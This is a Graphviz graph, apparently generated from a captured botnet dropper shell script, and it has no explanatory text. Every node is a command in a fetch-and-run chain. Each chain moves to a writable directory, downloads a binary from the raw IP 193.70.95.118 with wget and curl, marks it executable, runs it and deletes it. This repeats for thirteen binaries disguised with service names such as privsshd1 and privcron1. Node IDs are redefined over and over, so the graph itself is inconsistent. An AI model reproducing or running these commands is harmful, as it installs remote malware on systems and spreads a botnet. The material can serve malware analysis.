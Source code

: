 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://193.70.95.118/privntpd1 "];
10 -> 12 [label=";,"];
12 [label="curl -O http://193.70.95.118/privntpd1 "];
12 -> 14 [label=";,"];
14 [label="chmod +x privntpd1 "];
14 -> 16 [label=";,"];
16 [label="./privntpd1 "];
16 -> 18 [label=";,"];
18 [label="rm -rf privntpd1 "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://193.70.95.118/privsshd1 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://193.70.95.118/privsshd1 "];
32 -> 34 [label=";,"];
34 [label="chmod +x privsshd1 "];
34 -> 36 [label=";,"];
36 [label="./privsshd1 "];
36 -> 38 [label=";,"];
38 [label="rm -rf privsshd1 "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://193.70.95.118/privopenssh1 "];
50 -> 52 [label=";,"];
52 [label="curl -O http://193.70.95.118/privopenssh1 "];
52 -> 54 [label=";,"];
54 [label="chmod +x privopenssh1 "];
54 -> 56 [label=";,"];
56 [label="./privopenssh1 "];
56 -> 58 [label=";,"];
58 [label="rm -rf privopenssh1 "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://193.70.95.118/privbash1 "];
70 -> 72 [label=";,"];
72 [label="curl -O http://193.70.95.118/privbash1 "];
72 -> 74 [label=";,"];
74 [label="chmod +x privbash1 "];
74 -> 76 [label=";,"];
76 [label="./privbash1 "];
76 -> 78 [label=";,"];
78 [label="rm -rf privbash1 "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://193.70.95.118/privtftp1 "];
90 -> 92 [label=";,"];
92 [label="curl -O http://193.70.95.118/privtftp1 "];
92 -> 94 [label=";,"];
94 [label="chmod +x privtftp1 "];
94 -> 96 [label=";,"];
96 [label="./privtftp1 "];
96 -> 98 [label=";,"];
98 [label="rm -rf privtftp1 "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://193.70.95.118/privwget1 "];
110 -> 112 [label=";,"];
112 [label="curl -O http://193.70.95.118/privwget1 "];
112 -> 114 [label=";,"];
114 [label="chmod +x privwget1 "];
114 -> 116 [label=";,"];
116 [label="./privwget1 "];
116 -> 118 [label=";,"];
118 [label="rm -rf privwget1 "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://193.70.95.118/privcron1 "];
130 -> 132 [label=";,"];
132 [label="curl -O http://193.70.95.118/privcron1 "];
132 -> 134 [label=";,"];
134 [label="chmod +x privcron1 "];
134 -> 136 [label=";,"];
136 [label="./privcron1 "];
136 -> 138 [label=";,"];
138 [label="rm -rf privcron1 "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://193.70.95.118/privftp1 "];
150 -> 152 [label=";,"];
152 [label="curl -O http://193.70.95.118/privftp1 "];
152 -> 154 [label=";,"];
154 [label="chmod +x privftp1 "];
154 -> 156 [label=";,"];
156 [label="./privftp1 "];
156 -> 158 [label=";,"];
158 [label="rm -rf privftp1 "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://193.70.95.118/privpftp1 "];
170 -> 172 [label=";,"];
172 [label="curl -O http://193.70.95.118/privpftp1 "];
172 -> 174 [label=";,"];
174 [label="chmod +x privpftp1 "];
174 -> 176 [label=";,"];
176 [label="./privpftp1 "];
176 -> 178 [label=";,"];
178 [label="rm -rf privpftp1 "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://193.70.95.118/privsh1 "];
190 -> 192 [label=";,"];
192 [label="curl -O http://193.70.95.118/privsh1 "];
192 -> 194 [label=";,"];
194 [label="chmod +x privsh1 "];
194 -> 196 [label=";,"];
196 [label="./privsh1 "];
196 -> 198 [label=";,"];
198 [label="rm -rf privsh1 "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://193.70.95.118/privnut1 "];
210 -> 212 [label=";,"];
212 [label="curl -O http://193.70.95.118/privnut1 "];
212 -> 214 [label=";,"];
214 [label="chmod +x privnut1 "];
214 -> 216 [label=";,"];
216 [label="./privnut1 "];
216 -> 218 [label=";,"];
218 [label="rm -rf privnut1 "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://193.70.95.118/privapache21 "];
230 -> 232 [label=";,"];
232 [label="curl -O http://193.70.95.118/privapache21 "];
232 -> 234 [label=";,"];
234 [label="chmod +x privapache21 "];
234 -> 236 [label=";,"];
236 [label="./privapache21 "];
236 -> 238 [label=";,"];
238 [label="rm -rf privapache21 "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://193.70.95.118/privtelnetd1 "];
250 -> 252 [label=";,"];
252 [label="curl -O http://193.70.95.118/privtelnetd1 "];
252 -> 254 [label=";,"];
254 [label="chmod +x privtelnetd1 "];
254 -> 256 [label=";,"];
256 [label="./privtelnetd1 "];
256 -> 257 [label=";,"];
}
